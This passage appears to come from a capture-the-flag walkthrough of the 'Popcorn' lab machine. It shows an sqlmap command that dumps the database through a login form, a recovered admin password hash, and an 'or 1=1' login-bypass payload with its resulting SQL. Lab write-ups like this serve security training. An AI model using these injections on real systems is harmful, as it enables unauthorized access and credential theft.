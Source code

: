 | TABLES                                |
| TABLE_CONSTRAINTS                     |
| TABLE_PRIVILEGES                      |
| TRIGGERS                              |
| USER_PRIVILEGES                       |
| VIEWS                                 |
+---------------------------------------+
{% endhighlight %}

Lets get all the goodies

{% highlight shell %}
sqlmap -u http://$POPCORN/torrent/login.php --data="password=pwnd&username=pwnd" --method POST --dbms MySQL --thread=5 -a
{% endhighlight %}

This takes a little while, but eventually from __~/.sqlmap/output/10.10.10.6/dump/torrenthoster/users.csv__ I get the admin account details: 

{% highlight plaintext %}
id,email,joined,userName,password,privilege,lastconnect
3,admin@yourdomain.com,2007-01-06 21:12:46,Admin,d5bfedcee289e5e05b86daad8ee3e2e2,admin,2007-01-06 21:12:46
{% endhighlight %}

Normally at this point I'd fire the password hash `d5bfedcee289e5e05b86daad8ee3e2e2` through a decrypter but it isn't nesessary to get logged into the app as admin.

Because the injection point was in the login and it responded to boolean sqli on the username variable I can try a blind login.

Now at this point an option a more aggressive option would be to force a shell with sqlmap's os-shell flag. I'll admit I tried it but struggled to find a writable directory for the exploit to work. 

Attacking this way isn't my strong suit, the OSCP certification doesn't allow autopwn attacks with this tool so I'm not so familiar with the nuance of the approach. I park this vector to go back to and research if I get no where with the SQLi.

Going to the login page on the site I try the following username:

{% highlight sql %}
Admin' or 1=1; #
{% endhighlight %}

And I can put whatever I want as the password (but I do need to put something in this case), in effect (I hope) creating a similar sql statement to the one below 

{% highlight sql %}
SELECT *
FROM users
WHERE username = 'Admin' or 1=1; # AND password = 'doesn't matter I'm a comment>';
{% endhighlight %}

